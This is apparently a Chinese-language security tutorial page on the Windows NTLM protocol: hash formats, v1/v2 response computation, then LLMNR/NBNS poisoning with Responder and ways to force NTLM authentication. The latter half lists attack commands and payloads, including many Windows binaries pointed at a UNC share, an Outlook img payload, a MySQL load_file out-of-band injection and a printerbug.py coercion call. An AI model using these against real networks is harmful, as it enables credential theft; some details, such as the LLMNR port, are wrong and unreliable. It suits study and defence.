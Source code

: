 ```yaml
---
title: NTLM协议
tags: windows
---
```


## 概念

### Hash

windows 内部只保存密码的 hash，并不保存明文密码，本机用户的hash保存在本地的 SAM 文件中，域内用户的 hash 保存在域控的 NTDS.dit 文件中。

windows导出密码时，密码格式通常为：

```
Username:group id:LM Hash:NTLM Hash:::
```

LM Hash 是 windows 早期用的加密算法，为了解决 LM 加密和身份验证中固有的安全弱点，1993年微软引进了 NTLM 协议。从 Windows7 和 Windows Server 2008 开始，默认情况下系统只会存储 NTLM Hash。

### 计算

+ 密码转十六进制格式
+ Unicode 编码
+ MD4

### 身份验证

NTLM 验证是一种 Challenge/Response 验证机制，由三种消息组成：协商、质询、验证

+ 客户端向服务端发送协商信息，主要包含客户端支持和服务器请求的功能列表
+ 服务器响应质询消息，包含服务器支持和同意的功能列表，以及服务器产生的 Challenge
+ 客户端接收到 Challenge 后，用用户 Hash 与 Challenge 进行加密运算得到 Response，将 Response、username、Challenge 作为验证信息发给服务器
+ 服务器拿到验证信息后，用 Challenge 和用户 Hash 进行加密得到 Response2，与验证信息中的 Response 进行比较
+ 如果用户 Hash 存储在域控中，用户服务器就会通过 NetLogon 协议联系域控，建立一个安全通道，将 协商、质询和验证消息都发给域控，这个过程也被称为 Pass Through Authenication 认证流程。域控使用 Challenge 和用户 Hash 进行加密得到 Response2， 与验证消息中的 Response 比较

### NTLM v1/v2

验证中的响应有六种，其中的 NTLM v1 是基于 NT 客户端发送的，包括 Windows 2000 和 XP， NTLM v2 是在 Windows NT Service Pack4 中引入的响应类型。

Challenge/Response验证机制里面type3 response里面包含Net-ntlm hash，NTLM v1响应和NTLMv2响应对应的就是Net-ntlm hash分为Net-ntlm hash v1和Net-ntlm hash v2。

#### NTLM v1

v1 是8位的 Challenge，它的加密算法是将16字节的 NTLM Hash 填充为21个字节，然后分成3组，作为3DES加密算法的3组密钥，加密 Server 发送来的 Challenge，三个密文值连接起来得到 Response。

Net-ntlm hash v1

```
username::hostname:LM response:NTLM response:challenge
```

#### NTLM v2

v2是16位的 Challenge，加密算法：

+ 将 Unicode 后的大写用户名与 Unicode 后的身份验证目标（指定的域或服务器名称）拼在一起，使用 16字节 NTLM Hash 作为密钥，得到一个值
+ 构建 blob 信息
+ 用 NTLM v2 Hash 作为密钥，将 HMAC-MD5 消息认证代码算法加密来自质询的 Challenge 与 Blob 拼接在一起，得到一个16字节的 NTProofStr
+ 将 NTProofStr 与 Blob 拼接起来得到 Response

Net-ntlm hash v2

```
username::domain:challenge:HMAC-MD5:blob
```



## NTLM 请求

### LLMNR 和 NBNS

windows 解析域名顺序：

+ hosts
+ DNS
+ LLMNR
+ NBNS

#### LLNMR

LLMNR 是一种基于 DNS 数据包的格式，监听端口为 UDP：5535，IPv4 的广播地址为 224.0.0.252，IPv6 的广播地址为 FF02:0:0:0:0:0:1:3 或 FF02::1:3。LLNMR 采取的是广播的形式，当主机访问一个不存在的域名时，在本机 hosts 中没找到，DNS也无法解析，就会通过 LLMNR 协议进行广播，通过 Responder 进行响应，告知域名解析IP就可以进行类似 ARP 投毒的 LLMNR 投毒，进而获取主机的 NTLM v2 Hash。

#### NBNS

NBNS 全称为 NetBIOS Name Service。NetBIOS 解析过程为：

+ 检查本地 NetBIOS 缓存
+ 如果缓存中没有且配置了 WINS 服务器，就会向 WINS 服务器发出请求
+ 如果没有配置 WINS 服务器或 WINS 服务器无响应就会向当前子网域发送广播
+ 广播无回应就会读取本地的 lmhosts 文件（C:\Windows\System32\drivers\etc\）

在没有配置 WINS 服务器的情况下，NBNS 也会进行广播，所以也存在 NBNS 投毒。



### 使用 Responder 抓取NTLM v2 Hash

在kali下执行

```
responder -I eth0 -v
```

目标机器执行

```
net use \\123\1
```

网络上的用户需要访问没有 IP 或用户类型分析名的 share，就会触发到网络的 LLMNR 请求，responder 就会伪装成该访问的机器，从而获得 NTLM v2 Hash

![image-20210618105818213](https://gitee.com/tboom_is_here/pic/raw/master/img/image-20210618105818213.png)



### 发起 NTLM 请求

#### 执行命令

```
 net.exe use \hostshare 
 attrib.exe \hostshare  
 bcdboot.exe \hostshare  
 bdeunlock.exe \hostshare  
 cacls.exe \hostshare  
 certreq.exe \hostshare #(noisy, pops an error dialog) 
 certutil.exe \hostshare  
 cipher.exe \hostshare  
 ClipUp.exe -l \hostshare  
 cmdl32.exe \hostshare  
 cmstp.exe /s \hostshare  
 colorcpl.exe \hostshare #(noisy, pops an error dialog)  
 comp.exe /N=0 \hostshare \hostshare  
 compact.exe \hostshare  
 control.exe \hostshare  
 convertvhd.exe -source \hostshare -destination \hostshare  
 Defrag.exe \hostshare  
 diskperf.exe \hostshare  
 dispdiag.exe -out \hostshare  
 doskey.exe /MACROFILE=\hostshare  
 esentutl.exe /k \hostshare  
 expand.exe \hostshare  
 extrac32.exe \hostshare  
 FileHistory.exe \hostshare #(noisy, pops a gui)  
 findstr.exe * \hostshare  
 fontview.exe \hostshare #(noisy, pops an error dialog)  
 fvenotify.exe \hostshare #(noisy, pops an access denied error)  
 FXSCOVER.exe \hostshare #(noisy, pops GUI)  
 hwrcomp.exe -check \hostshare  
 hwrreg.exe \hostshare  
 icacls.exe \hostshare   
 licensingdiag.exe -cab \hostshare  
 lodctr.exe \hostshare  
 lpksetup.exe /p \hostshare /s  
 makecab.exe \hostshare  
 msiexec.exe /update \hostshare /quiet  
 msinfo32.exe \hostshare #(noisy, pops a "cannot open" dialog)  
 mspaint.exe \hostshare #(noisy, invalid path to png error)  
 msra.exe /openfile \hostshare #(noisy, error)  
 mstsc.exe \hostshare #(noisy, error)  
 netcfg.exe -l \hostshare -c p -i foo
```

#### outlook

邮件支持 html 格式，同时图片路径支持 UNC，所以可以构造 payload：

```
<img src="\\192.168.1.1\outlook">
```

#### Mysql

Mysql注入可以进行带外通信将数据带出来,前提是具备load_file权限，且没有secure_file_priv的限制，LOAD_FILE 也支持 UNC 路径

```
select load_file('\\\\192.168.1.1\\mysql');
```

#### 打印机

Windows 默认启用 MS-RPRN 协议，勇于打印机客户端和服务端的通信，任何经过身份验证的域成员都可以连接到远程服务器的打印服务（spoolsv.exe），并请求对一个新的打印作业进行更新，令其将该通知发送给指定目标。之后它会将立即测试该连接，即向指定目标进行身份验证（攻击者可以选择通过Kerberos或NTLM进行验证）。

```
ython printerbug.py 域/用户名:密码@打印机服务ip 回连ip
```